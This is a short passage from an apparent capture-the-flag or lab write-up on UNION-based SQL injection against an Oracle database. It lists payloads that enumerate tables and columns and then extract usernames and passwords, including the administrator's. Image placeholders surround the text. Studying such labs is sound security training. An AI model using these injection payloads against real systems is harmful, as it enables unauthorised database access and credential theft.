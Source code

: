 Second Thing you want to get the name of database.
	`Gift' UNION SELECT table_name,NULL FROM all_tables-- -`

Third Thing you want to search about the names of columns for the table that content the users
	`Gift' UNION SELECT * FROM all_tab_columns WHERE table_name = 'USERS_GKUGOE'-- -`
	`Gift' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_GKUGOE'-- -`

Last Thing You got all users data.
	`Gift' UNION SELECT USERNAME_ELKYDN,PASSWORD_FPNEVM FROM USERS_GKUGOE-- -`
	`Gift' UNION SELECT USERNAME_ELKYDN,PASSWORD_FPNEVM FROM USERS_GKUGOE WHERE USERNAME_ELKYDN='administrator'-- -`

---
---






---

# Image 2


![](assets/Pasted%20image%2020251019100001.png)

---